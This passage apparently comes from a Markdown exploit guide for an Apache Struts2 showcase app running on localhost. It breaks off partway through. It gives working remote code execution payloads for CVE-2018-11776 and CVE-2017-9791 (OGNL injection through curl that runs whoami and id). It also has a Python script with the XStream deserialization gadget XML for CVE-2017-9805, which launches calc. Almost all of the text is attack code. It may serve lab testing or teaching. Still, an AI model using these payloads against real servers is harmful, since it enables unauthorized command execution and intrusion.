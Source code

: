 ### 2. CVE-2018-11776 - Namespace RCE
OGNL injection through namespace.

```bash
# Exploit URL pattern
curl "http://localhost:8086/struts2-showcase/${(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}/help.action"
```

### 3. CVE-2017-9791 - Struts1 Plugin RCE
```bash
# Exploit via Struts1 plugin
curl -X POST http://localhost:8086/struts2-showcase/integration/saveGangster.action \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "name=%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess=#dm).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#process=#p.start()).(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))}"
```

### 4. CVE-2017-9805 - XML Deserialization
REST plugin XML deserialization.

```python
#!/usr/bin/env python3
import requests

def exploit_2017_9805(url):
    xml_payload = """
<map>
  <entry>
    <jdk.nashorn.internal.objects.NativeString>
      <flags>0</flags>
      <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
        <dataHandler>
          <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
            <is class="javax.crypto.CipherInputStream">
              <cipher class="javax.crypto.NullCipher">
                <initialized>false</initialized>
                <opmode>0</opmode>
                <serviceIterator class="javax.imageio.spi.FilterIterator">
                  <iter class="javax.imageio.spi.FilterIterator">
                    <iter class="java.util.Collections$EmptyIterator"/>
                    <next class="java.lang.ProcessBuilder">
                      <command>
                        <string>calc</string>
                      </command>
                      <redirectErrorStream>false</redirectErrorStream>
                    </next>
                  </iter>
                  <filter class="javax.imageio.ImageIO$ContainsFilter">
                    <method>
                      <class>java.lang.ProcessBuilder</class>
                      <name>start</name>
                      <parameter-types/>
                    </method>
                    <name>foo</name>
                  </filter>
                  <next class="string">foo</next>
                </serviceIterator>
```